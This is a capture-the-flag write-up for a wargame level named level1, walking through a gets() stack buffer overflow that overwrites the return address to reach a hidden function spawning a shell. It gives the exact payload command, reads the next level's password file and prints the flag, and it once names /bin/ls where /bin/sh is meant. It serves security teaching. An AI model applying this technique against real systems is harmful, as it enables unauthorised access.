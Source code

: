 # level1

We find an executable `level1`. We run `gdb level1` to examine it.

`disas main` yields us a very simple main ; it only does a `gets` and exits. `info functions` shows us other functions, and among them, one called `run` ; and `disas run` shows a function that runs a `system("/bin/sh")`.

What can we do here ? The run function we're looking for isn't naturally called by `main`. We'll have to use the `gets` to call `run`. Here's how we can do that :

## The exploit

`gets` is famous for being vulnerable to buffer overflows. If you overwrite further than the buffer, you can overwrite certain parts of the stack. Here, we want to overwrite the **return address of the main function** : the `eip` register.

Through experimentation, we find we can overwrite `eip` from character 77 to character 80 of the `gets`. This means writing 76 characters + the desired address will trick the program into going where we want.

We use Python to make our output easier :

```
python2 -c 'print("A" * 76 + DESIRED_ADDRESS)'
```

`disas run` gave us the address of run : `0x08048444`. We add it to our output, reversing to bytes to account for endianness :

```
python2 -c 'print("A" * 76 + "\x44\x84\x04\x08")'
```

Finally, we have to pipe it into the executable. But there's an issue : when `system("/bin/sh")` is ran, it'll read from `stdin`, and since we're overloading `stdin`, we'll need to add a `cat` in the mix. We run :

```
( python2 -c 'print("A" * 76 + "\x44\x84\x04\x08")' ; cat ) | ./level1
```

## The flag

The `python -c` overflows `gets`, `eip` is filled with the `run` address, `system("/bin/ls")` is ran and our `cat` is asked for a command. We run :

```
cat /home/user/level2/.pass
```

... and get the flag for `level1` :

```
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
